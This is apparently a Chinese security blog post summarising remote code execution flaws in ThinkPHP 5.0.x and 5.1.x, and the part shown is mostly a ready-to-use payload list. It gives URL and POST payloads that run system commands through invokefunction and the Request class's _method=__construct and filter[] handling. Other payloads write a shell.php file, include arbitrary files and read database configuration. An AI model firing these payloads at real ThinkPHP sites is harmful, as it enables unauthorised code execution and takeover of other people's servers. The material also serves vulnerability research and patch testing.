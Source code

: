 ```yaml
---
title: "Thinkphp5 RCE总结"
date: 2019-11-27T21:39:54+08:00
lastmod: 2019-11-27T21:39:54+08:00
draft: false
tags: ['thinkphp','代码审计']
categories: ['代码审计']
comment: true
---
```


thinkphp5 rce 分析总结



thinkphp5最出名的就是rce，我先总结rce，rce有两个大版本的分别

1. ThinkPHP 5.0-5.0.24
2. ThinkPHP 5.1.0-5.1.30

因为漏洞触发点和版本的不同，导致payload分为多种，其中一些payload需要取决于debug选项
比如直接访问路由触发的

5.1.x ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
5.0.x ：
```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```
还有一种
```
http://php.local/thinkphp5.0.5/public/index.php?s=index
post
_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
_method=__construct&filter[]=system&method=GET&get[]=whoami

# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23、5.1.0 <= 5.1.16 需要开启框架app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 需要存在xxx的method路由，例如captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
可以看到payload分为两种类型，一种是因为Request类的`method`和`__construct`方法造成的，另一种是因为Request类在兼容模式下获取的控制器没有进行合法校验，我们下面分两种来讲，然后会将thinkphp5的每个小版本都测试下找下可用的payload。
